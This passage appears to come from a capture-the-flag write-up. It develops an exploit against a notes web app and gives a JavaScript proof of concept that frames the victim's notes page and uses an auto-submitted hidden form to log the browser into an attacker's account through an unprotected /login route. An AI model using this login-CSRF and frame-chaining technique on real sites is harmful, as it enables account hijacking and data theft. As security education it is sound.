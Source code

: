 Now we can continue with the exploit development. I will do my exploit normally, with a local webserver and separate JS file, as this is much easier, and I can convert it into a `data:` URL later.

In liveoverflow's video, he is able to log into the XSS user by directly setting the cookies, but since `/login` route does not have CSRF protection enabled, we can log in with an automatically submitted HTML form to log in to the attacker.

Here is a proof of concept script that I wrote:

```js
const instance = "http://instance.url";
// The XSS user needs to have a note with the XSS payload
const xssUser = { username: "b", password: "b" };

function awaitOnload(elt) {
  return new Promise((res) => (elt.onload = () => res(elt)));
}

function loadFrame(url, name) {
  const frame = document.createElement("iframe");
  frame.name = name;
  frame.src = url;
  const r = awaitOnload(frame);
  document.body.appendChild(frame);
  return r;
}

function createForm(method, action) {
  const form = document.createElement("form");
  form.method = method;
  form.action = action;
  return form;
}

function createFormInput(form, name, value) {
  const input = document.createElement("input");
  input.type = "hidden";
  input.name = name;
  input.value = value;
  form.appendChild(input);
}

function sleep(ms) {
  return new Promise((res) => setTimeout(res, ms));
}

(async function () {
  const flagFrame = await loadFrame(instance + "/notes", "flag");
  const xssFrame = await loadFrame("about:blank", "xss");
  const form = createForm("POST", instance + "/login");
  createFormInput(form, "username", xssUser.username);
  createFormInput(form, "password", xssUser.password);
  form.target = xssFrame.name;
  document.body.appendChild(form);
  form.submit();
})();
```

